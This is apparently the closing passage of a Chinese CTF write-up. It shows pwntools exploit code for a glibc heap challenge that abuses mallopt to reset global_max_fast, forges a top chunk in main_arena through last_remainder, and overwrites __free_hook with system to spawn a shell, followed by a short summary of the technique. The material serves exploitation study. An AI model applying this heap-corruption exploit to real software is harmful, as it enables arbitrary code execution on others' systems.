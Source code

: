 ```
Free()                                #UB&lt;=&gt;(A, 0x490)
Create(0x10, 'C'*0x10)                #split, av-&gt;last_remainder = heap addr

M_MXFAST = 1
Mallopt(M_MXFAST, 0x7)                #global_max_fast = 0
Mallopt(M_MXFAST, 0x7)                #mallopt()-&gt;malloc_consolidate()-&gt;malloc_init_state()

for i in range(5):                    #padding
    CreateBuf(0x4F8, '\x00')

exp = '/bin/sh\x00'                    #system argv
exp+= '\x00'*0x318            
exp+= p64(libc.symbols['system'])    #__free_hook = system
CreateBuf(0x4F8, exp)

#getshell
Free()

sh.interactive()

'''
'''
```



## 总结
- 利用mallopt设置global_max_fast为0，引发main_arena重新初始化，在main_arena上构造出一个top chunk
- 利用last_remainder伪造top chunk 的size字段，从而在libc的maine_arena上任意写，不断申请直到覆盖掉__free_hook